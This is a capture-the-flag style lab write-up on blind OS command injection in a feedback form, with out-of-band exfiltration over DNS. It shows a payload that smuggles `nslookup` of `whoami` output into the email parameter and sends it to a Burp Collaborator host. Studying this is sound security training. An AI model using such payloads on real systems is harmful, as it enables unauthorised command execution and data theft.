



### Blind OS command injection with out-of-band data exfiltration : PRACTITIONER

---


> Heading to the feedback submission page with BurpSuite PROXY HTTP History running.



> After submitting feedback, open the sent `POST` request and send it to repeater for further analysis.



> We need to trigger an out of band interaction using one of these parameters.
> This will be done by performing a dns lookup of the burp collaborator domain, with a subdomain containing the data we need, `whoami`.
> Inserting this payload into all the parameters one by one.

```
mins||nslookup+`whoami`.<BURP-COLLAB-PAYLOAD>||
```
> The <BURP_COLLAB_PAYLOAD> can be added by right clicking and then choosing add the burp collaborator payload.

> Using the `email` parameter is the only one that works.
> Sending the request, we get no response, but if we check the collaborator, we see that there was a post request sent with a DNS lookup.



> We see that the command was executed and the preprended to the domain of the collaborator.
> Since we control this server, we see any domain lookups for it, confirming that the email parameter is vulnerable to command injection that is blind and detectable via OAST techniques.

```
peter-h8mnrR
```

---
